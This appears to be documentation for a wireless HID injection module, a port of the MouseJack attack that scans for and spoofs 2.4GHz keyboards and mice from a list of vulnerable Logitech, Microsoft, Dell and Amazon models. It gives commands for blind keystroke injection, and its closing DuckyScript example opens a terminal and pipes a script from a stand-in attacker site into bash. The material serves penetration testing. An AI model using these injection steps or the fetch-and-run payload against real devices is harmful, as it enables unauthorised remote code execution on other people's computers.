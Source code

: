 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

* CrazyRadio PA USB dongle
* SparkFun nRF24LU1+ breakout board
* Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```sh
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

* Microsoft Wireless Keyboard 800
* Microsoft Wireless Mouse 1000
* Microsoft Wireless Mobile Mouse 3500
* Microsoft All-In-One Media Keyboard
* Microsoft Sculpt Ergonomic Mouse
* Logitech Wireless Touch Keyboard K400r
* Logitech Marathon M705 Mouse
* Logitech Wave M510 Mouse
* Logitech Wireless Gaming Mouse G700s
* Logitech Wireless M325 Mouse
* Logitech K750 Wireless Keyboard
* Logitech K320 Wireless Keyboard
* Dell KM636 Wireless Mouse and Keyboard
* AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.clear`

Clear all devices collected by the HID discovery module.

#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.

#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.

#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

{{% notice note %}}
The command `hid.inject` does not require the HID device to be visible via the `hid.show` command. If you know the address of the dongle already, you can simply set the `hid.force.type` parameter to one among `logitech` (the default value), `amazon` or `microsoft` and run the injection *"blindly"*.
{{% /notice %}}

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `hid.lna` | `true` | If true, enable the LNA power amplifier for CrazyRadio devices. |
| `hid.hop.period` | `100` | Time in milliseconds to stay on each channel before hopping to the next one. |
| `hid.ping.period` | `100` | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode. |
| `hid.sniff.period` | `500` | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type. |
| `hid.force.type` | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter` | | Defines a regular expression filter for `hid.show`. |
| `hid.show.sort` | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`. |
| `hid.show.limit` | `0` | Defines limit for `hid.show`. | 

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

	GUI SPACE
	DELAY 200
	STRING Terminal
	ENTER
	DELAY 500
	STRING curl -L http://www.evilsite.com/commands.sh | bash
	ENTER

